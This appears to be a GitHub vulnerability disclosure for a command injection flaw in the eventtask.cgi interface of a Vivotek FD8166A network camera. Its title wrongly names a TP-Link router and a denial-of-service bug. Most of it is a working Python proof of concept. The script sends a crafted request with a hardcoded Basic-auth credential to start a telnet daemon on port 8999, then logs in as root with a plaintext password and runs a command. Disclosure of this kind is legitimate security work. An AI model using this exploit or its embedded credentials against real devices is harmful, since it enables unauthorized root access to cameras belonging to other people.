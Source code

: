 # Tplink-wr886n-v6-cloud_config-device_legality_illegal-dos-analysis

Vender：vivotek  
Firmware version: FD8166A-VVTK-0204j 
Hardware version: FD8166A  
Exploit Author: ljzjsc  
Vendor Homepage: <https://www.vivotek.com/>  
Hardware Link: <https://www.vivotek.com/fd8166a>  

## Vul detail
eventtask.cgi is a cgi interface that can be accessed in the device and can be accessed directly in the browser.

![1706496909343](./vivotek-FD8166A-eventtask-analysis.assets/1706496909343.png)

There is a command injection function in eventtask.cgi. The attacker only needs to construct the response payload to execute the response function to achieve the effect of arbitrary execution of the command.

![1706497925920](./vivotek-FD8166A-eventtask-analysis.assets/1706497925920.png)

We construct the corresponding payload to achieve rebound shell, denial of service and other attacks.

![1706500233048](./vivotek-FD8166A-eventtask-analysis.assets/1706500233048.png)

## PoC
```python
import requests
import telnetlib

url = "http://192.168.1.107/cgi-bin/admin/eventtask.cgi?method=exec&file=telnetd%20-p%208999"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Authorization": "Basic cm9vdDpsaTEwMTdydWk=",
    "Connection": "close",
    "Cookie": "webptzmode=continuous; activatedmode=digital; g_mode=1; viewsizemode=100; 4x3=false",
    "Upgrade-Insecure-Requests": "1"
}

response = requests.get(url, headers=headers)
print(response.status_code)
print(response.text)

tn = telnetlib.Telnet("192.168.1.107", 8999)
tn.read_until(b"login: ")
tn.write(b"root\n")
tn.read_until(b"Password: ")
tn.write(b"li1017rui\n")
response = tn.read_until(b"#")
tn.write(b"id\n")
response = tn.read_until(b"#")
print(response.decode('utf-8'))
```


[<video src="./vivotek-FD8166A-eventtask-analysis.assets/video.mp4"></video>](https://github.com/cwh031600/vivotek/assets/56186866/d908d933-22f0-4fc7-a3ea-5fa9766abf6e)https://github.com/cwh031600/vivotek/assets/56186866/d908d933-22f0-4fc7-a3ea-5fa9766abf6e
